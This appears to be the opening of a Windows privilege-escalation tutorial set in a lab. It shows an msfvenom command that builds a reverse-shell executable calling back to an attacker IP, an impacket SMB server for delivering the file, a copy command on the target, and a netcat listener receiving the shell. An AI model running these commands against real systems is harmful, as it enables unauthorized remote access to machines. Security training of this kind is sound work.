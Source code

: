 # Windows Privilege Escalation Guide


Let's make hands dry in Windows Privilege Escalation.


In order to deploy windows machine in linux we require `xfreerdp` or `remmina`tool along with username and password. 

**For xfreerdp**
```bash
root@gr4n173:~$ xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.13.134
```


**For remmina**
We have can run directly a tool and login with `username` and `password`.


## 1. Generate a Reverse Shell Executable
On Kali machine we can use `msfvenom` to generate the reverse shell executables

```bash
root@gr4n173:~$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.156 LPORT=53 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

From here to transfer this executable to windows, we can setup a Simple SMB Server of python in linux.
**Linux**
```bash
root@gr4n173:~$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py gr4n173 .
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

**In Window**
```bash
C:\User> copy \\10.10.14.156\gr4n173\reverse.exe C:\User\reverse.exe	
```

Now our task is to run the reverse shell executables in window to get the connection back before that we have to setup netcat listner on linux.
```bash
root@gr4n173:~$ nc -lvnp 53
listening on [any] 53 ...
connect to [10.2.77.175] from (UNKNOWN) [10.10.130.32] 49795
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\User>whoami
whoami
gr4n173\user
```
